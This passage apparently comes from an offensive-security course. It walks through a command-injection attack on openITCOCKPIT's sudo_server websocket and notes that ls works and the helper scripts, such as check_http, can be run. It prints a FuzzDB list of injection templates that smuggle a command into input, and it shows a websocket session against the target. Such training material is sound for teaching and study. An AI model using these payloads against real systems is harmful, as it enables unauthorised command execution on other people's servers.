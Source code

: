 kali@kali:~/scripts$ cat command-injection-template.txt 
{cmd}
;{cmd}
;{cmd};
^{cmd}
...
&CMD=$"{cmd}";$CMD
&&CMD=$"{cmd}";$CMD
%0DCMD=$"{cmd}";$CMD
FAIL||CMD=$"{cmd}";$CMD

;system('{cmd}')
Listing 69 - Downloading the FuzzDB list of commands

The list uses a template where the {cmd} variable can be replaced. By looping through each of these injection templates, sending it to the server, and inspecting the response, we can discover if any of the techniques allows for us to inject into the template.

1
(Adam Muntner, 2020), https://github.com/fuzzdb-project/fuzzdb ↩︎

##### Digging Deeper
At this point, we should have determined that none of the command injection techniques worked. Now we have to Try Harder. While we cannot inject into a new command, some commands might allow us to inject into the arguments. For example, the find command accepts the -exec argument, which executes a command on each file found.

Unfortunately, at this point we only know that the ls command works and it does not accept any arguments that allow for arbitrary command execution. But let's inspect the output of ls a bit more carefully.

The output displays a list of scripts, and after some trial and error, we discover that we can run those scripts.

kali@kali:~/scripts$ python3 wsclient.py --url wss://openitcockpit/sudo_server -k 1fea123e07f730f76e661bced33a94152378611e
[+] Connected!
ls
...
check_hpjd
check_http
check_icmp
...
./check_http
check_http: Could not parse arguments
Usage:
 check_http -H <vhost> | -I <IP-address> [-u <uri>] [-p <port>]
       [-J <client certificate file>] [-K <private key>]
       [-w <warn time>] [-c <critical time>] [-t <timeout>] [-L] [-E] [-a auth]
       [-b proxy_auth] [-f <ok|warning|critcal|follow|sticky|stickyport>]
       [-e <expect>] [-d string] [-s string] [-l] [-r <regex> | -R <case-insensitive regex>]
       [-P string] [-m <min_pg_size>:<max_pg_size>] [-4|-6] [-N] [-M <age>]
       [-A string] [-k string] [-S <version>] [--sni] [-C <warn_age>[,<crit_age>]]
       [-T <content-type>] [-j method]
Listing 70 - Trying check_http
